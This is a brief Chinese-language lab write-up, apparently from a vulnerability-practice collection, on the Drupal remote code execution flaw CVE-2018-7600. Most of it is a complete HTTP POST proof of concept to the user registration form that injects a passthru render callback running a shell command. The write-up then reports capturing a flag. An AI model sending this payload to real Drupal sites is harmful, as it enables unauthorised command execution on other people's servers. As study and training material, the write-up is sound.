


# Drupal 远程代码执行漏洞(CVE-2018-7600) by [anonymity3712](https://github.com/anonymity3712)

## 漏洞描述

Drupal 在 3 月 28 日爆出一个远程代码执行漏洞，CVE 编号 CVE-2018-7600，通过对比官方的补丁，可以得知是请求中存在 # 开头的参数。Drupal Render API 对于 # 有特殊处理。

## writeup 

访问靶机地址



直接构造poc代码

```
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: 靶机地址
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://靶机地址/user/register
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------99533888113153068481322586663
Content-Length: 626
Connection: close

-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#post_render][]"

passthru
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#type]"

markup
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="mail[#markup]"

ls -l /tmp
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="form_id"

user_register_form
-----------------------------99533888113153068481322586663
Content-Disposition: form-data; name="_drupal_ajax"
```
放到burp中利用



成功获取到flag文件
